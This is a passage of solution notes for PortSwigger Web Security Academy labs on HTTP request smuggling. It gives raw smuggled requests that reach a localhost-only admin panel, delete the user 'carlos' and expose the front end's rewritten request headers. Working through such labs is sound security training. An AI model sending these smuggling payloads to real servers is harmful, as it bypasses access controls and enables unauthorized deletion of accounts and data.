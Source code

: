 ```
71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
6. Observe that you can now access the admin panel.
7. Using the previous response as a reference, change the smuggled request URL to delete the user ``carlos``:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

# Exploiting HTTP request smuggling to reveal front-end request rewriting
Reference: https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting


## Solution
1. Browse to ``/admin`` and observe that the admin panel can only be loaded from ``127.0.0.1``.
2. Use the site's search function and observe that it reflects the value of the ``search`` parameter.
3. Use Burp Repeater to issue the following request twice.
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```
4. The second response should contain "Search results for" followed by the start of a rewritten HTTP request.